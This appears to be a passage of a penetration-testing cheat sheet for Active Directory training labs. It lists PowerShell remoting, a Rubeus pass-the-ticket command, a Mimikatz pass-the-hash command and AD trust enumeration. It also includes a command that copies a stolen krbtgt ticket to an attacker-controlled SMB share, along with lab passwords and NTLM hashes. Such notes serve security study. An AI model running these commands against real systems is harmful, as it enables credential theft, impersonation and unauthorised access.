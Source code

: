 - Start an interactive session with a remote computer.
`Enter-PSSession -ComputerName <COMPUTER> -Credential $cred`

```powershell
$usmgmt = New-PSSession us-mgmt
Enter-PSSession $usmgmt -Credential $cred
```

- Create a persistent PSSession on a local or remote computer.
`New-PSSession -ComputerName <COMPUTER> -Credential $cred`

- Modify the WSMan Trustedhosts property on a computer to be able to connect to an IP address instead of using a hostname
`Set-Item WSMan:\localhost\Client\TrustedHosts * -Force`

- Start an interactive session with a remote computer using it's IP address.
`Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential`
#### File Transfers
- Transfer Files via SCP
`scp htb-student@10.129.176.110:/opt/host-enum.txt host-enum.txt`

- Transfer Files via SMB
`impacket-smbserver Docs -smb2support . -user test -password test`
`net use n: \\10.10.14.100\Docs /user:test test`
`copy .\0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi \\10.10.14.100\Docs\`

- Transfer files through Windows computers using CIFS.
```powershell
net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator t7HoBF+m]ctv.]
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
# when finished
net use x: /d
```
#### Rubeus
- Create sacrificial process.
`.\Rubeus.exe createnetonly /program:'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' /username:studentuser57 /password:454RW7yRhbanBaFC /domain:us.techcorp.local /show`

- Create a new PowerShell process while executing a Pass-the-Ticket impersonation attack.
`.\Rubeus.exe asktgt /user:Administrator /rc4:BC4CF9B751D196C4B6E1A2BA923EF33F /domain:techcorp.local /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show /ptt`

- For a CMD process, use `C:\Windows\System32\cmd.exe`.

- Request a TGT using PKINIT.
`.\Rubeus.exe asktgt /user:certstore /certificate:C:\Auditor\Loot\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:certpass /nowrap /ptt /getcredentials`

#### Mimikatz/Safetykatz
- Create a new PowerShell process while executing a Pass-the-Ticket impersonation attack.
`.\mimikatz.exe "sekurlsa::pth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"`

#### AD Enumeration - AD Module
- Import AD Module
```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
- Enumerate all domains
`(Get-ADForest).Domains`
- Map all Trusts of a Forest
`Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name`
- List only the external trusts
`(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}`
- Find Trusts of another Forest/Domain